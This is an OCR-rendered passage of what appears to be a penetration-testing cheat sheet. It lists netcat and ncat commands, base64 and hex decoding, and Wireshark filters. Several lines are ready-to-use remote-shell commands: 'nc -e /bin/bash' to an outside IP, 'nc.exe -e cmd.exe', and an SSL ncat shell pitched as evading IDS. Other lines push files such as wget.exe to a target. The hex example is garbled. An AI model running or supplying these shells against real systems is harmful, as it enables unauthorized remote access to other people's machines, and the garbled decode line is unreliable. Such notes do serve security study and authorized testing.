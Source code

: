     - Decode Base64 Encoded Values\
echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode

    - Decode Hexidecimal Encoded Valuesecho -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps

- Netcat - Read and write TCP and UDP Packets

    - Download Netcat for Windows (handy for creating reverse shells and transfering files on windows systems):[https://joncraton.org/blog/46/netcat-for-windows/](https://joncraton.org/blog/46/netcat-for-windows/) 

    - Connect to a POP3 mail servernc -nv $ip 110

    - Listen on TCP/UDP portnc -nlvp 4444

    - Connect to a netcat portnc -nv $ip 4444

    - Send a file using netcatnc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe

    - Receive a file using netcatnc -nlvp 4444 > incoming.exe

    - Some OSs (OpenBSD) will use nc.traditional rather than nc so watch out for that…\
whereis nc\
nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz

/bin/nc.traditional -e /bin/bash 1.2.3.4 4444

- Create a reverse shell with Ncat using cmd.exe on Windowsnc.exe -nlvp 4444 -e cmd.exe\
or\
nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe

- Create a reverse shell with Ncat using bash on Linuxnc -nv $ip 4444 -e /bin/bash

- Netcat for Banner Grabbing:\
echo "" | nc -nv -w1 <IP Address> <Ports>

- Ncat - Netcat for Nmap project which provides more security avoid IDS

    - Reverse shell from windows using cmd.exe using sslncat --exec cmd.exe --allow $ip -vnl 4444 --ssl

    - Listen on port 4444 using sslncat -v $ip 4444 --ssl

- Wireshark

    - Show only SMTP (port 25) and ICMP traffic:\
tcp.port eq 25 or icmp

    - Show only traffic in the LAN (192.168.x.x), between workstations and servers – no Internet:\
ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16

    - Filter by a protocol ( e.g. SIP ) and filter out unwanted IPs:\
ip.src != xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && sip

    - Some commands are equal\
ip.addr == xxx.xxx.xxx.xxx\
Equals\
ip.src == xxx.xxx.xxx.xxx or ip.dst == xxx.xxx.xxx.xxx\
ip.addr != xxx.xxx.xxx.xxx\
Equals\
ip.src != xxx.xxx.xxx.xxx or ip.dst != xxx.xxx.xxx.xxx
